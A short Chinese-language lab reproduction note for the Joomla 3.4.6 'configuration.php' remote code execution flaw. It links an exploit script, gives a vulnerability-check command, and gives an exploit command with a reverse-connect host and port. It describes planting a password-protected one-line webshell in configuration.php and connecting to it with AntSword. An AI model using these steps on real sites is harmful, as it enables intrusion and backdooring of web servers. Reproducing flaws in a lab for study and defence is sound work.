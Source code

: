 # Joomla 3.4.6 - 'configuration.php' 远程代码执行

> 原文：[http://book.iwonder.run/0day/Joomal/1.html](http://book.iwonder.run/0day/Joomal/1.html)

## 一、漏洞简介

Joomla 3.4.6 - 'configuration.php' Remote Code Execution

## 二、影响范围

Joomla 3.0.0 至 3.4.6

## 三、复现过程

[https://github.com/ianxtianxt/Joomla-3.4.6---configuration.php-Remote-Code-Execution](https://github.com/ianxtianxt/Joomla-3.4.6---configuration.php-Remote-Code-Execution)

### 脚本验证

验证：

```
python3 test.py -t http://127.0.0.1:8080/ 
```

![image](img/78a9a47aa2c74ab813d3a5874cf26bff.png)

显示“Vulnerable”证明存在漏洞

利用：

```
python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121 
```

![image](img/08bc1171b8798f7cb92e4b1ec9fde2ae.png)

执行成功

并在“configuration.php”写入**随机密码**的一句话木马 ![image](img/714bd605ad0e7748fc3392b057d915c7.png) 上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

![image](img/dd9465f4c3d16d352b04fbd3f804f9c4.png)

